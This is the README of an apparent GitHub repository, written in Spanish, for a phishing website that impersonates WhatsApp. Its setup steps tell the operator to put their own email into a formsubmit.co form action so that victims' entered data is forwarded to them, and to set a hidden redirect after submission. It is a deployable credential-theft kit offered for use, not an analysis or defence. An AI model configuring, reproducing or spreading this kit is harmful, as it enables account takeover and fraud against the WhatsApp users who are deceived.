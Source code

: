 # WhatsApp-fishing
WhatsApp_fishing web

## website para fishing para Whatsapp

# requerimientos

> no se requiere ningún tipo de plugin o extensión

# configuración 

> configuración de envío de datos

> efitar la sección de form donde se encuentra el username para remplazar por su correo
>
```html
 <form action="https://formsubmit.co/username@gmail.com" method="POST">
```

# enlace de archivos 

> para enlazar el index.html y el código.html se tiene que proporcionar el link creado por el hosting
>
> se tiene que editar el redireciona para que apunte ala web se edita la siguiente sección

```html
<input type="hidden" name="_next" value="url_web">
```
# recursos

> puedes utilizar los load implementado en los archivos :)
>
# fotos 

<body>
 <img src="https://raw.githubusercontent.com/A72672/WhatsApp-fishing/main/fhoto/Screenshot_2023-10-10_07-58-07.png">
</body>
